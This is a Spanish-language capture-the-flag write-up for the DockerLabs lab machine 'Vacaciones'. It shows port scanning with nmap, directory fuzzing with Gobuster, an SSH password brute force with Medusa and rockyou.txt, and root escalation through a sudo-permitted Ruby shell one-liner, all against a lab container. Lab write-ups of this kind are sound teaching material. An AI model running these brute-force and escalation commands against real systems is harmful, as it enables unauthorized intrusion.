 ```yaml
---
title: Vacaciones - DockerLabs
published: true
categories: DockerLabs
---
```

| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  | Muy Fácil   | Romabri | 

## Escaneo y Reconocimiento de puertos

Vamos a iniciar nuestro reconocimiento con un rápido escaneo de nmap.
![imagen](https://github.com/romabri/WriteUps/assets/51706860/1d5fc344-4aca-4a00-a985-f1d8eb5932a6)


`nmap -p- --open -sS -sC -sV --min-rate=5000 -vvv -n -Pn -oN escaneo 172.17.0.2`
- `-p-` - Busqueda de puertos abiertos
- `--open` - Enumera los puertos abiertos
- `-sS` - Es un modo de escaneo rapido
- `-sC-` - Que use un conjunto de scripts de reconocimiento
- `-sV` - Que encuentre la version del servicio abirto
- `--min-rate=5000` - Hace que el reconocimiento aun vaya mas rapido mandando no menos de 5000 paquetes
- `-n` - No hace resolución DNS
- `-Pn` - No hace ping
- `-vvv` - Muestra en pantalla a medida que encuentra puertos (Verbose)

Vemos que tiene el puerto 22 y el puerto 80 abierto

## Puerto 80

![imagen](https://github.com/romabri/WriteUps/assets/51706860/d819b9bf-b29d-4c70-901d-2e49022901f8)

La pagina web no muestra nada vamos a probar hacer fuzzing con Gobuster

Usamos `Gobuster` para hacer un reconocimiento web y ver que directorios podemos encontrar en dicho sitio.

`gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php`
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.20.10.5/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

Gobuster tampoco ha encontrado nada pero si inspeccionamos el codigo de la pagina nos encontramos algo

![imagen](https://github.com/romabri/WriteUps/assets/51706860/5ffd2f85-c447-4c29-a37c-4cb4fbc1b518)

Tenemos dos possibles usuarios `Juan` y `Camilo`

## Intrusión y Escalada de privilegios

Vamos hacer un ataque de fuerza burta al puerto SSH con `Medusa` de los dos usuarios para ver si encontramos las credenciales

`medusa -h 172.17.0.2 -u camilo,juan -P /usr/share/wordlists/rockyou.txt -M ssh`

Nos ha encontrado que camilo puede acceder via SSH con la contraseña password1

Vamos a ingresar

![imagen](https://github.com/romabri/WriteUps/assets/51706860/4b204202-b868-4016-95bd-d1ee324eb0ae)

Si hacemos busqueda de permisos SUID o SUDO no tenemos nada vamos a ver si hay un correo como decia el texto que hay en el codigo fuente de la pagina web.

nos dirigimos a `/var/mail/camilo`

Y nos encontramos el siguiente email

![imagen](https://github.com/romabri/WriteUps/assets/51706860/b1c0318a-2f61-4875-8cf0-87874e5bcd0d)

Tenemos una contraseña vamos a cambiar al usuario de juan

![imagen](https://github.com/romabri/WriteUps/assets/51706860/918afa8a-cdb0-4980-b7c6-67b8bc5f83c4)

Si ejecutamos sudo -l nos aparece que podemos usar Ruby como sudo 

Para escalar privilegios con este lo hacemos de la siguiente forma:

`ruby -e 'exec "/bin/sh"`

Ya hemos vulnerado la maquina!!!






